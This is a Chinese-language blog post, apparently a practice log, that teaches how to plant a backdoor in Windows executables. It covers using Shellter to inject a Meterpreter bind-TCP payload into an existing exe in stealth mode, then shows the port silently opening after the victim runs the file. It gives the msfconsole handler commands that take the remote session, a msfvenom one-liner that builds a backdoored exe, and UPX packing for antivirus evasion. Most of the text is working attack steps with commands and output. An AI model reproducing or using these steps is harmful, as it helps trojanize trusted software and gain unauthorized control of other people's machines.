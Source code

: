 ```yaml
---
title: 简单的 PE 后门
date: 2019-07-19 22:57:45
tags:
  - Kali
  - 实践记录
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ShellterUpx/0.jpg
---
```


记录一下最简单的挂后门和免杀方法，不怎么接触这块。

<!--more-->

主要介绍两个工具：Shellter 和 Upx，后者 Kali 自带。Shellter 的安装略有点复杂，因为需要 wine32 的支持。使用的 Kali 是 64 位的。

首先 `apt install shellter` 应该不会有什么问题，但是启动的时候会提示缺少 wine32，因此执行：

```shell
$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

这一步会花费很长时间，因为 wine 本身很庞大。装完后应该就可以正常使用了。

## 通过 Shellter 篡改 exe 文件

随意取一个 exe 文件作为我们要加入后门的可执行文件。首先启动 shellter，会看到：
![图 1]({{< param cdnPrefix >}}/ShellterUpx/0.jpg)

输入 `A` 选择自动模式，随后输入 exe 文件所在路径，程序便会自动运行，分析原文件并插入恶意代码。这个过程大约持续不到一分钟。

输入 `Y` 开启隐蔽模式，随后选择使用它列出的七种 payload 还是自定义，这里我们输入 `L` 选择列出的 payload。

带 `Meterpreter` 前缀的是指可以通过 MSF 获取会话的 payload，方式有正向 `Bind` 与反向 `Reverse` 两种。`Bind` 顾名思义，就是用户打开 exe 后，将会在用户主机上开放一个端口，攻击者去连接那个端口就可以获取会话。`Reverse` 则是反过来，使用户主机连接攻击者开放的端口来获取会话。而带 `Shell` 前缀的 payload 可以直接反弹 shell 给攻击者。

攻击者还可以通过不同的协议来获取会话，比如任意 TCP 协议，HTTP/HTTPS 协议等。这里以选择 4 号 payload `Meterpreter_Bind_TCP` 为例。

最后要求设置 `LPORT` 也就是要在目标主机上打开的端口，只要是没有被占用的端口都可以，比如这里可以设置 `60000` 端口。

完成以后，新的 exe 文件就是已经被植入后门的 exe 文件，相比于原文件，它占空间多了一点，其它地方似乎看不出什么区别。

## 通过 Meterpreter 获取会话

假设目标主机（Windows）获得了新的 exe 文件。在双击打开前，我们查看用 `netstat -an` 查看其已经开放的端口：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

然后我们双击打开，发现和原来的 exe 完全没有区别。再次查看端口情况可以发现，`60000` 端口悄悄开启了：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:60000          0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

接下来我们看看攻击者要怎么操作来获取会话。

首先要确保攻击者和目标主机在同一网段。打开 `msfconsole`。依次输入：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 60000
set rhost 192.168.159.128
exploit
```

其中 `rhost` 需要改为目标主机的内网 IP。

这样以后，就可以获取会话，并执行任意命令了（会话的作用不局限于执行 shell 命令）：
![图 2]({{< param cdnPrefix >}}/ShellterUpx/1.jpg)

需要注意的是，一旦用户关闭 exe 文件，会话也将随之关闭。因此实际场景中常常配合持久化提权工具使用。

## 使用 msfvenom 直接生成带后门的 PE 文件

上面的例子需要修改一个已有的 exe 文件，这里我们可以直接生成这样的带后门的文件：

```shell
$ msfvenom -p windows/meterpreter/bind_tcp lport=60001 -f exe > test.exe
```

端口号依然可以是任意未被占用的端口。msfvenom 也提供了许多选项实现免杀，这里不一一介绍了。

## 使用 Upx 给程序加壳

这样做的作用主要有两个：压缩文件大小和免杀。然而 Upx 加壳毕竟是最最简单的免杀方法，现在的绝大多数杀毒软件都能轻易脱壳。举个例子，给刚才生成的 exe 文件加壳，只需要：

```shell
$ upx -9 test.exe
```

`-1` 参数压缩得最快，`-9` 参数压缩质量最高。

## 后记

这篇文章叙述的方法是最初级的植入后门的方法，略过了很多有一定难度的细节，详情参见 Shellter/Upx/msfvenom 的文档。
